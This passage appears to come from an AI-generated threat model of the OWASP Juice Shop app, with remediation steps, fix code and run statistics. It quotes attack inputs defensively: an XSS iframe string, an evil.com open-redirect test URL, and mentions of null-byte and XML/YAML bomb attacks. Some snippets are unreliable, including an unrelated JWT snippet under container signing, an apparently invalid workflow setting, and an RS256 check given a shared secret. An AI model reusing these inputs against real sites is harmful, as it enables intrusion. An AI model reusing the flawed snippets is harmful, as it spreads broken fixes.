**Reference:** CWE-548

---

<a id="m-029"></a>
#### M-029 — Manual review: verify Org-Admin Token Exposed in pull_request_target Context at .github/workflows/pr-compliance.yml:438

**Addresses:**

- 🟠 [F-035](#f-035) — Org-Admin Token Exposed in pull_request_target Context (`pr-compliance.yml:438`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/pr-compliance.yml:438`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (.`github/workflows/pr-compliance.yml:438`) and decide whether to keep, downgrade, or remove this finding.

1. Split the 'Block Spammer' step into a separate workflow triggered by `workflow_run` (with `types: [completed]`) that reads the spam-rating output via artifacts - this trigger runs in the base repo context but never exposes secrets to fork code.
2. In the interim, add `if: github.event.pull_request.head.repo.full_name == github.repository` to the 'Block Spammer' step so it never runs for fork PRs.
3. Apply `permissions: pull-requests: write, issues: write` (already present) but explicitly set `secrets: inherit: false` to prevent automatic secret propagation to inner steps - ensure no step other than the block step has access to `ORG_ADMIN_TOKEN`.
4. Document the secret's intended scope in a comment adjacent to the step to prevent future maintainers from inadvertently expanding its usage context.

```javascript
# Safe pattern: use workflow_run to process fork PR events
on:
  workflow_run:
    workflows: ["PR Compliance Check"]
    types: [completed]

jobs:
  block-spammer:
    if: github.event.workflow_run.conclusion == 'success'
    runs-on: ubuntu-latest
    steps:
      - name: Block user if spam
        uses: actions/github-script@ed597411d8f924073f98dfc5c65a23a2325f34cd
        env:
          ORG_ADMIN_TOKEN: ${{ secrets.ORG_ADMIN_TOKEN }}
        with:
          script: |
            // safe: workflow_run never checks out fork code
```

**Reference:** CWE-1357

---

<a id="m-030"></a>
#### M-030 — Manual review: verify Plaintext Payment Card Storage at models/card.ts:39

**Addresses:**

- 🟠 [F-036](#f-036) — Plaintext Payment Card Storage (`models/card.ts:39`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `models/card.ts:39`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`models/card.ts:39`) and decide whether to keep, downgrade, or remove this finding.

1. Replace direct PAN storage with tokenization: integrate a payment vault (e.g., Stripe, Braintree) so the application stores a payment method token, never the raw PAN.
2. If local storage is required for development/demo purposes, add a Sequelize `get()`/`set()` transformer on `cardNum` that encrypts using AES-256-GCM with a key loaded from an environment variable, not from source code.
3. Add `sequelize.options.logging: false` (already present in `models/index.ts:39`) to prevent PANs from appearing in query logs, and ensure no application log level emits raw card data.

```javascript
// AES-256-GCM encrypt/decrypt in model getter/setter
cardNum: {
  type: DataTypes.TEXT, // store as encrypted hex string
  get () {
    const encrypted = this.getDataValue('cardNum')
    return encrypted ? decrypt(encrypted, process.env.CARD_ENCRYPTION_KEY) : null
  },
  set (value: string) {
    this.setDataValue('cardNum', encrypt(value, process.env.CARD_ENCRYPTION_KEY))
  }
}
```

**Reference:** CWE-311

---

<a id="m-031"></a>
#### M-031 — Manual review: verify Null-byte injection bypasses extension allowlist to serve restricted FTP files at routes/fileServer.ts:28

**Addresses:**

- 🟠 [F-037](#f-037) — Null-byte injection bypasses extension allowlist to serve restricted FTP files

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileServer.ts:28`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileServer.ts:28`) and decide whether to keep, downgrade, or remove this finding.

1. Move `file = security.cutOffPoisonNullByte(file)` to execute before `endsWithAllowlistedFileType(file)` in the verify function at `routes/fileServer.ts:26`-38.
2. Additionally reject filenames containing `%00` or raw null bytes (`\x00`) before processing - these have no legitimate use in filenames.
3. Consider replacing the extension allowlist approach with a stricter explicit filename allowlist for the FTP directory, enumerating only files intended for public download.

```javascript
function verify (file: string, res: Response, next: NextFunction) {
  file = security.cutOffPoisonNullByte(file) // sanitize FIRST
  if (file && endsWithAllowlistedFileType(file)) {
    // now the extension check sees the real filename
    res.sendFile(path.resolve('ftp/', file))
  } else {
    res.status(403)
    next(new Error('Only .md and .pdf files are allowed!'))
  }
}
```

**Reference:** CWE-22

---

<a id="m-032"></a>
#### M-032 — Manual review: verify Publicly exposed /ftp/ directory listing reveals sensitive internal files at server.ts:269

**Addresses:**

- 🟠 [F-038](#f-038) — Publicly exposed /ftp/ directory listing reveals sensitive internal files

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:269`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:269`) and decide whether to keep, downgrade, or remove this finding.

1. Add authentication middleware (e.g. `security.isAuthenticated()`) before the `serveIndex` and `servePublicFiles` route registrations in `server.ts`.
2. If directory listing is required for operational purposes, restrict to admin-role users via an authorization check.
3. Move sensitive files (`acquisitions.md`, `incident-support.kdbx`, backup files) out of the publicly-served `ftp/` directory entirely and into a location not reachable via static file serving.
4. Consider replacing open directory listing with a controlled API endpoint that returns only explicitly whitelisted file names.

**Reference:** CWE-548

---

<a id="m-033"></a>
#### M-033 — Manual review: verify Unauthenticated WebSocket broadcasts all challenge-solved notifications at lib/startup/registerWebsocketEvents.ts:30

**Addresses:**

- 🔴 [F-039](#f-039) — Unauthenticated WebSocket broadcasts all challenge-solved notifications

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:30`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/startup/registerWebsocketEvents.ts:30`) and decide whether to keep, downgrade, or remove this finding.

1. Add a Socket\.IO middleware that extracts and verifies the JWT from the `auth` handshake parameter: `io.use((socket, next) => { const token = socket.handshake.auth?.token; jwt.verify(token, SECRET, (err, decoded) => { if (err) return next(new Error('Unauthorized')); socket.data.userId = decoded.id; next(); }); })`.
2. In the `connection` handler, replace the broadcast-all loop with a per-user filtered query: only emit `challenge solved` notifications whose `userId` matches `socket.data.userId`.
3. Update `frontend/src/app/Services/socket-io.service.ts` to pass the current session JWT in the `auth` option: `io(origin, { auth: { token: localStorage.getItem('token') } })`.
4. Ensure the Socket\.IO middleware runs before any event listener so unauthenticated upgrade attempts are rejected before the `connection` event fires.

```typescript
// In registerWebsocketEvents.ts
io.use((socket: any, next: any) => {
  const token = socket.handshake.auth?.token
  if (!token) return next(new Error('Unauthorized'))
  jwt.verify(token, jwtSecret, (err: any, decoded: any) => {
    if (err) return next(new Error('Unauthorized'))
    socket.data.userId = decoded.id
    next()
  })
})
```

**Reference:** CWE-306

---

<a id="m-034"></a>
#### M-034 — Manual review: verify Missing Rate Limit on CPU-Bound Sandbox Endpoint at server.ts:645

**Addresses:**

- 🟠 [F-040](#f-040) — Missing Rate Limit on CPU-Bound Sandbox Endpoint (`server.ts:645`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:645`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:645`) and decide whether to keep, downgrade, or remove this finding.

1. Import `express-rate-limit` (already a dependency at `server.ts` line 31) and apply a per-IP limit of 10 requests per minute to the `/b2b/v2` route prefix, e.g., `app.use('/b2b/v2', rateLimit({ windowMs: 60_000, max: 10 }))` placed before the `security.isAuthorized()` line.
2. Consider running the vm.`runInContext` call in a worker thread (`node:worker_threads`) or child process to isolate the CPU cost from the main event loop.
3. Add a `Content-Length` or body-size limit for the `/b2b/v2/orders` route to prevent excessively large `orderLinesData` payloads from consuming parse-time memory.

```javascript
// server.ts — add before line 423
app.use('/b2b/v2', rateLimit({ windowMs: 60_000, max: 10, standardHeaders: true, legacyHeaders: false }))
```

**Reference:** CWE-770

---

<a id="m-035"></a>
#### M-035 — Manual review: verify Missing Rate Limit on Login Endpoint at server.ts:343

**Addresses:**

- 🟠 [F-041](#f-041) — Missing Rate Limit on Login Endpoint (`server.ts`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:343`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:343`) and decide whether to keep, downgrade, or remove this finding.

1. Add `app.use('/rest/user/login', rateLimit({ windowMs: 15 * 60 * 1000, max: 10, standardHeaders: true, legacyHeaders: false }))` in `server.ts` before the login route handler.
2. Use a per-account rate limiter in addition to per-IP: after a failed login for a given email, increment a counter in Redis (or in-memory with `express-rate-limit` store) keyed by `email` and block after 5 failures for 15 minutes.
3. Do not use `headers['X-Forwarded-For']` as the key generator (same vulnerability as the reset-password endpoint) - rely on the validated `req.ip` after `trust proxy` is correctly configured.

```typescript
// server.ts — add before login route
app.use('/rest/user/login',
  rateLimit({ windowMs: 15 * 60 * 1000, max: 10, standardHeaders: true, legacyHeaders: false })
)
```

**Reference:** CWE-307

---

<a id="m-036"></a>
#### M-036 — Manual review: verify XML Entity Expansion DoS in File Upload at routes/fileUpload.ts:83

**Addresses:**

- 🟠 [F-042](#f-042) — XML Entity Expansion DoS in File Upload (`routes/fileUpload.ts:83`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileUpload.ts:83`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileUpload.ts:83`) and decide whether to keep, downgrade, or remove this finding.

1. Change parse options at `routes/fileUpload.ts:83` to `{ noblanks: true, noent: false, nocdata: true }` - disabling `noent` prevents entity expansion entirely.
2. Add an upload size limit before the XML handler: `checkUploadSize` (already in the middleware chain) should be configured to reject files over 50KB with a 400 response.
3. Add authentication to the `/file-upload` endpoint (`server.ts:309`): require `security.isAuthorized()` before `ensureFileIsPassed`.

```typescript
// routes/fileUpload.ts — disable entity expansion
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })',
  sandbox, { timeout: 2000 }
)
```

**Reference:** CWE-400

---

<a id="m-037"></a>
#### M-037 — Manual review: verify YAML bomb and XML billion-laughs cause CPU/memory exhaustion on upload endpoint at routes/fileUpload.ts:117

**Addresses:**

- 🟠 [F-043](#f-043) — YAML bomb and XML billion-laughs cause CPU/memory exhaustion on upload endpoint

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileUpload.ts:117`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileUpload.ts:117`) and decide whether to keep, downgrade, or remove this finding.

1. Add `rateLimit({ windowMs: 60000, max: 10 })` middleware to the `POST /file-upload` route in `server.ts` to limit upload frequency per IP.
2. For YAML: reject documents exceeding a safe nesting depth before calling `yaml.load()` - inspect raw bytes for repeated `&anchor` / `*alias` patterns or use a SAX-style pre-scan.
3. For XML: add `nonet: true` to the libxmljs2 options to block network entity fetching, and set `maxErrors: 1` to abort on first entity expansion error.
4. Consider upgrading from `libxmljs2` to a safer alternative that enforces entity expansion limits natively (e.g. use `sax` parser without entity support).

```javascript
// server.ts — add rate limit before upload pipeline
app.post('/file-upload',
  rateLimit({ windowMs: 60 * 1000, max: 10, standardHeaders: true }),
  uploadToMemory.single('file'),
  ensureFileIsPassed,
  // ... rest of middleware
)
```

**Reference:** CWE-400

---

<a id="m-038"></a>
#### M-038 — Manual review: verify No connection rate limit on Socket\.IO upgrade endpoint at lib/startup/registerWebsocketEvents.ts:20

**Addresses:**

- 🟠 [F-044](#f-044) — No connection rate limit on Socket\.IO upgrade endpoint

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:20`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/startup/registerWebsocketEvents.ts:20`) and decide whether to keep, downgrade, or remove this finding.

1. Apply `express-rate-limit` (or `socket.io`'s built-in `allowRequest` hook) to limit WebSocket upgrade requests per IP: `io.engine.on('connection_error', ...) ` combined with a custom `allowRequest` function that tracks per-IP upgrade counts using a sliding-window counter.
2. Set `maxHttpBufferSize` on the Socket\.IO server constructor to cap the size of incoming event payloads (default 1 MB is reasonable; lower for this app): `new Server(server, { cors: {...}, maxHttpBufferSize: 1e5 })`.
3. Consider setting a `connectTimeout` (default 45 s) and ensuring inactive sockets are disconnected: `new Server(server, { connectTimeout: 10000 })`.
4. If the application supports multiple users, convert the shared `notifications` array to a per-user store so the `forEach` loop at connection time is bounded to one user's entries rather than all pending notifications.

```typescript
const io = new Server(server, {
  cors: { origin: 'http://localhost:4200' },
  maxHttpBufferSize: 1e5,
  connectTimeout: 10000
})
// Per-IP upgrade rate limiting
const connectCounts = new Map<string, number>()
io.engine.use((req: any, res: any, next: any) => {
  const ip = req.socket.remoteAddress
  const count = (connectCounts.get(ip) ?? 0) + 1
  connectCounts.set(ip, count)
  if (count > 50) return res.destroy()
  setTimeout(() => connectCounts.set(ip, Math.max(0, (connectCounts.get(ip) ?? 1) - 1)), 60000)
  next()
})
```

**Reference:** CWE-400

---

<a id="m-039"></a>
#### M-039 — Manual review: verify Unauthenticated Admin Configuration Endpoints at server.ts:604

**Addresses:**

- 🔴 [F-045](#f-045) — Unauthenticated Admin Configuration Endpoints (`server.ts:604`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:604`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:604`) and decide whether to keep, downgrade, or remove this finding.

1. Add `app.use('/rest/admin', security.isAuthorized(), requireRole(security.roles.admin))` before the individual route handlers at `server.ts:604`-605.
2. Review all fields returned by `retrieveAppConfiguration()` and strip any fields that should not be externally visible even for admin users.
3. Add an integration test confirming that unauthenticated GET to `/rest/admin/application-configuration` returns 401.

**Reference:** CWE-285

---

<a id="m-040"></a>
#### M-040 — Manual review: verify Password Change Bypass Without Current Password at routes/changePassword.ts:39

**Addresses:**

- 🟠 [F-046](#f-046) — Password Change Bypass Without Current Password (`routes/changePassword.ts:39`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/changePassword.ts:39`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/changePassword.ts:39`) and decide whether to keep, downgrade, or remove this finding.

1. Change the guard at `routes/changePassword.ts:39` from `if (currentPassword && security.hash(currentPassword) !== loggedInUser.data.password)` to an unconditional block: first check `if (!currentPassword) return res.status(401).send('Current password required.')`, then verify the hash.
2. Add CSRF protection to the change-password endpoint - a state-changing GET (using query parameters) is inherently CSRF-vulnerable; switch the endpoint to POST with a CSRF token or `SameSite=Strict` cookie requirement.

```typescript
// routes/changePassword.ts — unconditional current-password check
if (!currentPassword) {
  res.status(401).send(res.__('Current password is required.'))
  return
}
if (security.hash(currentPassword) !== loggedInUser.data.password) {
  res.status(401).send(res.__('Current password is not correct.'))
  return
}
```

**Reference:** CWE-640

---

<a id="m-041"></a>
#### M-041 — Manual review: verify Client-Side-Only Admin Route Guard at frontend/src/app/app.guard.ts:52

**Addresses:**

- 🔴 [F-048](#f-048) — Client-Side-Only Admin Route Guard (`frontend/src/app/app.guard.ts:52`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:52`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/app.guard.ts:52`) and decide whether to keep, downgrade, or remove this finding.

1. On the Express backend, add a middleware that validates the JWT signature AND checks `decodedToken.data.role === 'admin'` before processing any `/api/` route served by admin-only handlers (`GET /api/Users`, `GET /api/Feedbacks`, etc.).
2. Document `AdminGuard` in a comment as a UX gate only - it must never be relied upon for security decisions.
3. Consider issuing separate short-lived admin tokens (scoped to admin operations) rather than embedding a role claim in the same long-lived user token.

```javascript
// Express admin middleware
function requireAdmin(req, res, next) {
  const token = req.headers.authorization?.replace('Bearer ', '');
  if (!token) return res.status(401).json({ error: 'Unauthorized' });
  try {
    const payload = jwt.verify(token, process.env.JWT_SECRET,
      { algorithms: ['RS256'] });
    if (payload.data?.role !== 'admin') {
      return res.status(403).json({ error: 'Forbidden' });
    }
    req.user = payload.data;
    next();
  } catch (err) {
    return res.status(401).json({ error: 'Invalid token' });
  }
}
```

**Reference:** CWE-862

---

<a id="m-042"></a>
#### M-042 — Manual review: verify Unauthenticated client events trigger server-side challenge solution state chan… at lib/startup/registerWebsocketEvents.ts:41

**Addresses:**

- 🔴 [F-049](#f-049) — Unauthenticated client events trigger server-side challenge solution state chan…

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:41`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/startup/registerWebsocketEvents.ts:41`) and decide whether to keep, downgrade, or remove this finding.

1. Gate the WebSocket upgrade with JWT authentication middleware (see socketio-server-001 remediation step 1) so only authenticated users can emit events.
2. For `verifyLocalXssChallenge` and `verifySvgInjectionChallenge`, bind solved state to `socket.data.userId` rather than the global challenges object - use per-user challenge tracking if the application requires it in multi-user mode.
3. For `notification received`, verify `socket.data.userId` owns the notification before removing it from the store, or use per-user notification queues instead of a shared array.
4. Consider whether these challenge-verify events need to be WebSocket events at all - challenge completion triggered by server-observed HTTP actions is harder to forge than client-emitted events.

```typescript
// Reject events from unauthenticated sockets
socket.on('verifyLocalXssChallenge', (data: any) => {
  if (!socket.data.userId) return // reject unauthenticated
  challengeUtils.solveIf(challenges.localXssChallenge, () =>
    utils.contains(data, '<iframe src="javascript:alert(`xss`)">'),
  )
})
```

**Reference:** CWE-306

---

<a id="m-044"></a>
#### M-044 — Container image signing via cosign or attest-build-provenance

**Addresses:**

- 🔴 [F-005](#f-005) — Missing Container Image Signing (cosign / build provenance attestation)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/ci.yml:1`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-provenance - Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-045"></a>
#### M-045 — Dockerfile npm/pnpm/yarn uses --ignore-scripts

**Addresses:**

- 🟡 [F-006](#f-006) — Dockerfile Package Install Missing --ignore-scripts Flag (`Dockerfile`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Use `npm ci --ignore-scripts` and audit required postinstalls separately - Without --ignore-scripts, any compromised dependency publisher can execute postinstall code at build time.

---

<a id="m-050"></a>
#### M-050 — Dockerfile USER directive (non-root)

**Addresses:**

- 🟡 [F-050](#f-050) — Dockerfile USER directive (non-root)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `node_modules/getos/Dockerfile:1`

**How:** Add USER <non-root-uid> - Containers running as root expand container-escape blast radius.

---

<a id="m-051"></a>
#### M-051 — GITHUB_TOKEN scope minimization

**Addresses:**

- 🟡 [F-051](#f-051) — GITHUB_TOKEN scope minimization

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/lock.yml:1`

**How:** Add `permissions: { contents: read }` at root; per-job elevate to `contents: write` only where needed - `contents: read` at workflow root forces per-job opt-in for write scopes - minimal privilege by default.

---

<a id="m-055"></a>
#### M-055 — Render lastLoginIp as textContent rather than trusted HTML in last-login-ip.component.ts

**Addresses:**

- 🔴 [F-052](#f-052) — Stored XSS via lastLoginIp JWT Claim Trust Bypass

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**How:** Replace `bypassSecurityTrustHtml(\`<small>\${payload.data.`lastLoginIp`}</small>\`)` with a plain string assignment: `this.lastLoginIp = payload.data.lastLoginIp` and update the template to render it in a `<small>{{ lastLoginIp }}</small>` text binding. Validate that `lastLoginIp` matches an IPv4/IPv6 regex on the server before embedding it in the JWT, rejecting any value containing HTML-special characters.

1. Replace `bypassSecurityTrustHtml(\`<small>\${payload.data.`lastLoginIp`}</small>\`)` with a plain string assignment: `this.lastLoginIp = payload.data.lastLoginIp` and update the template to render it in a `<small>{{ lastLoginIp }}</small>` text binding.
2. Validate that `lastLoginIp` matches an IPv4/IPv6 regex on the server before embedding it in the JWT, rejecting any value containing HTML-special characters.

```javascript
// last-login-ip.component.ts — safe replacement
// Change field type from SafeHtml to string
lastLoginIp: string = '';

parseAuthToken() {
  const token = localStorage.getItem('token');
  if (token) {
    const payload = jwtDecode(token) as any;
    if (payload.data?.lastLoginIp) {
      // plain string — Angular template escapes automatically
      this.lastLoginIp = payload.data.lastLoginIp;
    }
  }
}
```

**Reference:** CWE-79

---

<a id="m-056"></a>
#### M-056 — Add query timeout and result-set limit to the product search raw SQL call

**Addresses:**

- 🟡 [F-053](#f-053) — Unbounded Raw SQL Query Event Loop Block (`routes/search.ts:23`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/search.ts:23`

**How:** Pass `{ timeout: 2000 }` (2 s) in the Sequelize query options object for the product search call so SQLite aborts long-running queries before they starve the event loop. Migrate to the ORM `ProductModel.findAll()` path (with `limit` and `offset` pagination), which also enables query cancellation via Sequelize's built-in timeout support. Add `PRAGMA query_only = ON` for read-only queries to prevent accidental writes in the search path.

1. Pass `{ timeout: 2000 }` (2 s) in the Sequelize query options object for the product search call so SQLite aborts long-running queries before they starve the event loop.
2. Migrate to the ORM `ProductModel.findAll()` path (with `limit` and `offset` pagination), which also enables query cancellation via Sequelize's built-in timeout support.
3. Add `PRAGMA query_only = ON` for read-only queries to prevent accidental writes in the search path.

```javascript
// Add timeout to raw query (interim fix)
await models.sequelize.query(
  `SELECT * FROM Products WHERE ((name LIKE :criteria OR description LIKE :criteria) AND deletedAt IS NULL) ORDER BY name LIMIT 100`,
  { replacements: { criteria: `%${criteria}%` }, timeout: 2000 }
)
```

**Reference:** CWE-400

---

<a id="m-057"></a>
#### M-057 — Replace url.includes() with exact-match or startsWith() in isRedirectAllowed

**Addresses:**

- 🟡 [F-054](#f-054) — Open Redirect Allowlist Bypass via Substring Match (`lib/insecurity.ts:138`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `lib/insecurity.ts:138`

**How:** Replace `allowed = allowed || url.includes(allowedUrl)` at `lib/insecurity.ts:138` with `allowed = allowed || url === allowedUrl` for exact matching, or `url.startsWith(allowedUrl)` if subdirectory redirects within the allowed domain are required. Prefer exact matching: the current allowlist contains full canonical URLs (no trailing wildcards intended), so `===` is semantically correct. Add a test case: `isRedirectAllowed('https://evil.com?r=https://github.com/juice-shop/juice-shop')` must return `false`.

1. Replace `allowed = allowed || url.includes(allowedUrl)` at `lib/insecurity.ts:138` with `allowed = allowed || url === allowedUrl` for exact matching, or `url.startsWith(allowedUrl)` if subdirectory redirects within the allowed domain are required.
2. Prefer exact matching: the current allowlist contains full canonical URLs (no trailing wildcards intended), so `===` is semantically correct.
3. Add a test case: `isRedirectAllowed('https://evil.com?r=https://github.com/juice-shop/juice-shop')` must return `false`.

```typescript
// lib/insecurity.ts — exact match
export const isRedirectAllowed = (url: string) => {
  for (const allowedUrl of redirectAllowlist) {
    if (url === allowedUrl) return true
  }
  return false
}
```

**Reference:** CWE-601

---

### P4 — Backlog

<a id="m-046"></a>
#### M-046 — Dockerfile HEALTHCHECK instruction

**Addresses:**

- 🟢 [F-007](#f-007) — Missing Dockerfile HEALTHCHECK Instruction

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Add HEALTHCHECK CMD `curl -f http://localhost:<port>/health` - Missing HEALTHCHECK delays orchestrator detection of a hung or poisoned container.

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `(not recorded)` |
| Generated | 2026-06-12 06:09 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.4.0-beta (analysis v2) |
| Orchestrator model | sonnet |
| Repository | `/home/mrohr/juice-shop` |
| Output directory | `/home/mrohr/juice-shop/docs/security` |
| Total analysis duration | 56m 46s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|----------------------------|----------------------|--------|--------|----------|---------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | sonnet | 45m 12s | 416 | 605,771 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 1m 28s | 133 | 167,114 |
| 2 | Report Rendering | appsec-threat-renderer | sonnet | 8m 14s | 39 | 184,621 |
| 3 | Re-Render Loop (REPAIR_MODE) | appsec-fragment-fixer | sonnet | 1m 50s | 15 | 45,903 |
| 3 | QA Review | `qa_checks.py` | none | - | 0 | 0 |
| **Total** | - | - | - | **56m 46s** | **603** | **1,003,409** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 1 | Context Resolution complete (parallel with<br/>Phase 2) | threat-analyst (sonnet-4-6) | 4m 51s |
| Phase 2 | Reconnaissance complete (parallel with Phase<br/>1) | recon-scanner (sonnet-4-6) | 4m 51s |
| Phase 3 | Architecture Modeling - 7 components<br/>produced | threat-analyst (sonnet-4-6) | 1m 48s |
| Phase 4 | Attack Walkthroughs - deferred to Stage 2<br/>renderer (STAGE1_PHASE_LIMIT=8) | threat-analyst (sonnet-4-6) | (inline) |
| Phase 5 | Asset Identification - 12 assets catalogued | threat-analyst (sonnet-4-6) | 2m 22s |
| Phase 6 | Attack Surface Mapping - 25 entry points (21<br/>unauthenticated) | threat-analyst (sonnet-4-6) | 2m 22s |
| Phase 7 | Trust Boundary Analysis - 8 boundaries | threat-analyst (sonnet-4-6) | 2m 22s |
| Phase 8 | Security Controls - 🟢 0  🟡 7  🟠 15  🔴 15 | threat-analyst (sonnet-4-6) | 2m 25s |
| Phase 9 | STRIDE merge complete - 54 threats (Crit:14<br/>High:32 Med:7 Low:1) | Nx stride-analyzer (sonnet-4-6) | 4m 00s |
| Phase 10 | Scan Synthesis - 2 sca-practice findings, 5<br/>known-bad-libs, config-scan ingested | threat-analyst (sonnet-4-6) | 20s |
| Phase 10b | Triage Validation - 2 flags (2 warnings), 1<br/>chain active | appsec-triage-validator (sonnet-4-6) | 3m 42s |
| Phase 11 | Substeps 1-3 complete - `threat-model.yaml`<br/>written (54 threats, 3 mitigations, 7… | threat-analyst (sonnet-4-6) | 3m 01s |
| Phase 11 | [§7](#7-security-architecture) enrichment complete (secarch role) | threat-analyst (sonnet-4-6) | 7m 51s |
| Phase 11 | Finalization (parallel renderer) | threat-analyst (sonnet-4-6) | 9m 32s |

---

<a id="appendix-composition-notes"></a>
## Appendix: Composition Notes

The composition pipeline emitted the soft warnings listed below. These do not block release (the contract still passed) but they flag content the renderer could not fully validate - typically NARRATIVE_PLACEHOLDER leakage from Stage-2 incomplete authoring or Mermaid syntax that downstream parsers may reject.

### Soft Warnings

| Section | Category | Detail |
|----------------------|-----------|----------------------|
| (unspecified) | `other` | `security-posture-attack-paths.json` is<br/>schema-invalid (FragmentError); falling back<br/>to deterministic derivation at render time |
| Global Secret-Mask Pass | `secret_mask` | secret-mask applied: pem_lone_marker -<br/>credential-shaped strings were redacted to <REDACTED><br/>placeholders |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2021, A03:2021, A07:2021

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2021, A04:2021, A05:2021, A10:2021

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

